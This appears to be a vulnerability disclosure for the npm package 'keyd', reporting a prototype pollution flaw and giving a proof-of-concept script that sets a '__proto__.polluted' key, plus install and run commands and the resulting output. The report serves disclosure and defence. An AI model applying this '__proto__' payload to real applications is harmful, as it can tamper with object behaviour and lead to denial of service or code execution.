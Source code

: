 # Description

`keyd` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var keyd = require("keyd")
var obj = {}
console.log("Before : " + {}.polluted);
keyd(obj).set('__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);

```
2. Execute the following commands in another terminal:

```
npm i keyd # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
